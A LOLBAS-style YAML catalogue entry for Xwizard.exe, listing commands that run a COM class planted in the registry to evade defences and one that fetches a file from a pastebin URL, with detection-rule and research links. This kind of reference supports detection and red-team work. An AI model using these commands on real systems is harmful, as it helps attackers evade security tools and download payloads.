 ```yaml
---
Name: Xwizard.exe
Description: Execute custom class that has been added to the registry or download a file with Xwizard.exe
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: xwizard RunWizard {00000001-0000-0000-0000-0000FEEDACDC}
    Description: Xwizard.exe running a custom class that has been added to the registry.
    Usecase: Run a com object created in registry to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: xwizard RunWizard /taero /u {00000001-0000-0000-0000-0000FEEDACDC}
    Description: Xwizard.exe running a custom class that has been added to the registry. The /t and /u switch prevent an error message in later Windows 10 builds.
    Usecase: Run a com object created in registry to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: xwizard RunWizard {7940acf8-60ba-4213-a7c3-f3b400ee266d} /zhttps://pastebin.com/raw/iLxUT5gM
    Description: Xwizard.exe uses RemoteApp and Desktop Connections wizard to download a file, and save it to %LocalAppData%\Microsoft\Windows\INetCache\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION> or %LocalAppData%\Microsoft\Windows\INetCache\IE\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION>
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\xwizard.exe
  - Path: C:\Windows\SysWOW64\xwizard.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_class_exec_xwizard.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_dll_sideload_xwizard.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/execution_com_object_xwizard.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
Resources:
  - Link: http://www.hexacorn.com/blog/2017/07/31/the-wizard-of-x-oppa-plugx-style/
  - Link: https://www.youtube.com/watch?v=LwDHX7DVHWU
  - Link: https://gist.github.com/NickTyrer/0598b60112eaafe6d07789f7964290d5
  - Link: https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/
  - Link: https://twitter.com/notwhickey/status/1306023056847110144
Acknowledgement:
  - Person: Adam
    Handle: '@Hexacorn'
  - Person: Nick Tyrer
    Handle: '@NickTyrer'
  - Person: harr0ey
    Handle: '@harr0ey'
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```

